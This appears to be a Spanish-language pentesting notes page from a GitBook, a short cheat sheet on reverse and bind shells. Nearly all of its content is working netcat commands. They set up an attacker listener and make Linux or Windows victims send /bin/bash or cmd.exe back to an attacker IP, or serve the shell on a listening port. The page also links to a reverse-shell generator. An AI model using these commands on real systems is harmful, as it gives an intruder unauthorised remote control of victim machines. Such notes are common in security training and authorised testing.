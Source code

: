 # Shells

## Reverse Shell

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption><p>Target to Attacker</p></figcaption></figure>

### Atacante Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port>
```
{% endcode %}

Donde:

* `-l` : Modo escucha
* `-v` : Modo verbose (Retorna Información de la conexión, se puede usar -vvv para mas información en la conexión).&#x20;
* `-n` : Deshabilitar resolución inversa de DNS
* `-p <Port>` : Establece el puerto de escucha



### Victima Linux

```bash
nc <IP> <Port> -e /bin/bash
```

### Víctima Windows

```bash
nc.exe <IP> <Port> –e cmd.exe
```





## Bind Shell

En algunos proyectos donde no puedas establecer un servidor de escucha por que te encuentres por NAT o por Firewall, a veces es conveniente de que la máquina victima esté en modo escucha ofreciendo la shell, a esto se le llama <mark style="color:green;">**Bind shell**</mark> o <mark style="color:green;">**shell directa.**</mark>

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Atacante Linux

```bash
nc <IP Target> <Port>
```

### Víctima Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port> -e /bin/bash
```
{% endcode %}

### Víctima Windows

{% code overflow="wrap" %}
```bash
nc.exe -l -p <Port> -e cmd.exe
```
{% endcode %}



## Referencias

Generador de Revershells

{% embed url="https://www.revshells.com/" %}

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}
